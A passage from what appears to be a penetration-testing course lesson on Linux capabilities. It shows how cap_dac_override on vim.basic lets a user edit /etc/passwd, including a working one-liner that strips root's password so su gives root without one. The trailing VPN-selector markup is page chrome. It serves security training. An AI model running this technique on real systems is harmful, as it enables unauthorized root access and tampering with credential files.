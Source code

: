 <pre><code class="language-shell-session">[!bash!]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
</code></pre>
<p>For example, the <code>/usr/bin/vim.basic</code> binary is run without special privileges, such as with <code>sudo</code>. However, because the binary has the <code>cap_dac_override</code> capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the <code>cap_dac_override</code> capability and perform tasks that require this capability.</p>
<p>Let us take a look at the <code>/etc/passwd</code> file where the user <code>root</code> is specified:</p>
<pre><code class="language-shell-session">[!bash!]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
</code></pre>
<p>We can use the <code>cap_dac_override</code> capability of the <code>/usr/bin/vim</code> binary to modify a system file:</p>
<pre><code class="language-shell-session">[!bash!]$ /usr/bin/vim.basic /etc/passwd
</code></pre>
<p>We also can make these changes in a non-interactive mode:</p>
<pre><code class="language-shell-session">[!bash!]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
[!bash!]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
</code></pre>
<p>Now, we can see that the <code>x</code> in that line is gone, which means that we can use the command <code>su</code> to log in as root without being asked for the password.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="31" value="16">US Academy 5</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="33" value="4">US Academy 1</option>